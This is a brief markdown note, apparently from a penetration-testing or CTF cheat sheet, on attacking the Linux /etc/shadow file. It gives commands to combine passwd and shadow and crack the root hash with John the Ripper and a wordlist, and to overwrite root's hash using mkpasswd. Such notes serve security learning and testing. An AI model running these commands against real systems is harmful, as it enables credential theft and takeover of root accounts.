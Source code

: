 # Shadw.md
***
The /etc/shadow file stores password hashes for user accounts and is intended to be accessible only to the root user. Each line within the file corresponds to a user account, and the user's password hash is located between the first and second colons : on each line. The password hashing algorithm employed to generate the root user's hash is sha512crypt.

## Cracking the root hash
```sh
unshadow /etc/passwd /etc/shadow > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashes.txt
```

## Replace root's hash
Generate a cryptographic hash for a password of your selection and substitute the existing hash for the root user with the newly generated hash.
```sh
mkpasswd -m sha-512 <password of your choice>
```
